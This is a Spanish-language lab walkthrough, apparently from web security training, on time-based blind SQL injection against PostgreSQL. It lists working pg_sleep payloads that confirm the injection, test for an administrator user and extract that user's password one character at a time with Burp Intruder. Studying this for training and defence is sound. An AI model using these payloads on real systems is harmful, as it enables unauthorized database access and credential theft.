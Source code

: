 # Blind SQL injection with time delays

Se puede inyectar codigo con delays de tiempo cambia mucho para cada base de datos

> Las técnicas para desencadenar un retraso de tiempo son muy específicas para el tipo de base de datos que se utiliza. En Microsoft SQL Server, una entrada como la siguiente se puede usar para probar una condición y desencadenar un retraso dependiendo de si la expresión es verdadera:


```
TrackingId=x'||pg_sleep(10)--

```


# Blind SQL injection with time delays and information retrieval 

# Checar si el vulnerable al Ataque Paso 1

Para probar si es vulnerable a este tipo de ataque se pueden utilizar los condicionales

```
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
'SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
'SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

# Orden de ejecucion en SQL Paso 2 ( para probar existencia de tablas)

> https://programacion.net/articulo/el_orden_de_ejecucion_de_las_queries_en_sql_1032

El orden en que se ejecuta una sentencia SQL nos puede ayudar a checar si existen usuarios y tablas. La siguiente tabla muentra como se va ejecutando una sentencia SQL la primera intruccion que se ejecuta es el from

## Logical Query Processing Phase

Cuando escribes una serie de comandos dentro de una query sql, estos comandos se dividen mediante una fase de procesamiento lógico. Cada fase genera una serie de tablas virtuales que alimentan a la siguiente fase. Por supuesto, dichas tablas virtuales no son visibles por los administradores. Las fases y su orden de ejecución son las siguiente

```
1. FROM
2. ON
3. OUTER
4. WHERE
5. GROUP BY
6. CUBE | ROLLUP
7. HAVING
8. SELECT
9. DISTINCT
10 ORDER BY
11. TOP
```


## Checar Tablas y Sacar informacion 

```
'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

Por el Orden de ejecucion

```

'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END from users where username='administrator'--;

```

# Extraer los datos Paso 3

Sabiendo que tienemos un password utilizamos el LENGTH() vas mandando al intruder esta peticion cuando la mandes en la pesataña de comumnas activa en donde dice
****Response recived*** para ver el tiempo que tardo en recibirse para ver donde cambia.

```
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

Para confirmar nada mas 

 ```
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)=20)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--;

```

Para sacar el password que mide 20  mover la posicion del substring moviendo hasta el 20 igual activa la opcion de recived para ver el tiempo en que se tardo y ademas activa que solo se genere una solicitud en burp en el ***Resource pool*** dentro de las opciones del intruder ( max 1 request)

```
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,20,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

```


